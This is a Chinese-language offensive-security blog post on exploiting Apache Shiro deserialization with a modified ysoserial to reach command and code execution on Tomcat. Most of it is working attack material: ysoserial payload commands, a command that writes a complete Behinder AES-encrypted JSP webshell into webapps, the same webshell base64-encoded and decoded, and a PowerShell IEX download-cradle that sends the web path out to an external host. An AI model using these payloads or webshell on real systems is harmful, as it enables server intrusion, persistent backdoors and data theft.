



最近一次攻防项目中，无论外网还是内网多次遇到了 shiro 反序列化的点，利用链是CommonsBeanutils1；虽然能执行命令但是遇到两个问题：
- 执行命令除了DNS log的方式没有其他回显
- 利用 JRMP 的方式反弹 shell 没有成功
因此在思考其他利用方式进一步拿shell
Tomcat某版本的回显方式
具体实现原理参考长亭师傅的文章
下载更改过的 ysoserial 地址：https://github.com/buptchk/ysoserial/
编译时直接跳过tests mvn package -DskipTests
改变tomcat header限制，注意使用对应gadget对应的payload，注意线程数控制，发现不成功可以调大线程数试一试 java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1TomcatHeader 16000
生成回显payload，打回显的payload时记得要在request添加上 tomcat: tomcat
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2TomcatEcho2 "whoami"
生成 rememberMe 的 payload 之后把数据包放进 Intruder 设置 NULL 变量 设置20（或其他数量）
记得记得在 request 添加请求头 tomcat: tomcat

因此可以先查看当前WEB路径，然后直接执行 echo 的方式把shell 写进去 tomcat 目录下。一开始没有成功读到 webapps 的目录，后面发现Windows操作系统读的过程路径需要双斜杠。
另外 echo 写 shell 的过程中因为 jsp 脚本有<> 符号，windows下可能识别为通道符，因此需要^转译。
1 | java -jar ysoserial.jar CommonsBeanutils1TomcatEcho2 'echo ^<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if(request.getParameter(\"178879a2dc1ac6a6ec68bdde12a0a541\")!=null){String k=(\"\"+UUID.randomUUID()).replace(\"-\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%^>>E:\\xxx\\tomcat-8.0.35\\webapps\\ROOT\\shell.jsp' > /tmp/ser.ser |
但这种回显方式只针对某些版本的tomcat，并不适用于全版本（tomcat7不行）
修改ysoserial实现代码执行
以前在我认知里，代码执行和命令执行似乎没有什么区别，但大部分业务场景上我觉得代码执行其实会比命令执行严重得多。
比如在我这次测试中，虽然能进行命令执行没有回显而且当前目标系统网络环境甚至还不出网。这种场景下代码执行就显得非常有用。
首先，可进行代码执行的话，可以参考SQL盲注的思路编写代码测试去获取服务端当前环境的信息。
如延时判定操作系统
1 | try{ |
出网的情况下可以DNS log外带方式获取当前web路径
1 | StringBuilder s = new StringBuilder("powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx:9898/?a="); |
或者使用 powershell 反弹等等。。。
但如果不出网的情况下，如果是tomcat的话可以盲写shell；因为如果是tomcat当前目录一定是bin目录，因此就知道webapps目录的相对路径 ../webapps/ROOT/，因此写shell的目录就是
当前目录+../webapps/ROOT/
写文件
1 | StringBuilder s = new StringBuilder("echo '123'>"); |
判定文件存不存在
1 | try{ |
注意 Windows 操作系统的话路径是双斜杠\\
但实际上写冰蝎或比较复杂的文件，可以直接用File写文件流，echo写文件有各种字符小问题
1 | String sourceString = "PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLGphdmF4LmNyeXB0by4qLGphdmF4LmNyeXB0by5zcGVjLioiJT48JSFjbGFzcyBVIGV4dGVuZHMgQ2xhc3NMb2FkZXJ7VShDbGFzc0xvYWRlciBjKXtzdXBlcihjKTt9cHVibGljIENsYXNzIGcoYnl0ZSBbXWIpe3JldHVybiBzdXBlci5kZWZpbmVDbGFzcyhiLDAsYi5sZW5ndGgpO319JT48JWlmKHJlcXVlc3QuZ2V0UGFyYW1ldGVyKCJwYXNzIikhPW51bGwpe1N0cmluZyBrPSgiIitVVUlELnJhbmRvbVVVSUQoKSkucmVwbGFjZSgiLSIsIiIpLnN1YnN0cmluZygxNik7c2Vzc2lvbi5wdXRWYWx1ZSgidSIsayk7b3V0LnByaW50KGspO3JldHVybjt9Q2lwaGVyIGM9Q2lwaGVyLmdldEluc3RhbmNlKCJBRVMiKTtjLmluaXQoMixuZXcgU2VjcmV0S2V5U3BlYygoc2Vzc2lvbi5nZXRWYWx1ZSgidSIpKyIiKS5nZXRCeXRlcygpLCJBRVMiKSk7bmV3IFUodGhpcy5nZXRDbGFzcygpLmdldENsYXNzTG9hZGVyKCkpLmcoYy5kb0ZpbmFsKG5ldyBzdW4ubWlzYy5CQVNFNjREZWNvZGVyKCkuZGVjb2RlQnVmZmVyKHJlcXVlc3QuZ2V0UmVhZGVyKCkucmVhZExpbmUoKSkpKS5uZXdJbnN0YW5jZSgpLmVxdWFscyhwYWdlQ29udGV4dCk7JT4="; |
sourceString解码就是冰蝎
1 | <% import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%> |
为什么要base64编码再解码？因为修改ysoserial.jar 时添加了urldecode

URLDecoder().decode(cmd)遇到@符号会报错

实现方式：
修改ysoserial/payloads/util/Gadgets.java
1 | String cmd = ""; |
适用范围：
1 | CommonsBeanutils1 |
参考文章
http://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/